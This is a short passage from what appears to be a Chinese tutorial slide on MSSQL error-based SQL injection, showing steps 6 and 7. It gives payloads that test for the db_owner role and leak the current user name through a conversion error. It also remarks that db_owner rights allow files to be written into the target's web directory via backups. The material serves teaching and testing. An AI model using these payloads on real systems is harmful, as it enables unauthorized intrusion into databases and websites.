

MSSql报错注入
MSSql报错注入的过程
6、判断当前数据库角色是否为DB_OWNER:
Payload：and 1=(select is_member('db_owner'))
说明：如果是DB_OWNER 在这样的权限下我们可以通过各种备份方式往目标的网站目录里写文件

7、获取当前用户名字：
Payload：and user_name()>0
说明：在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。于是将用户名字显示出来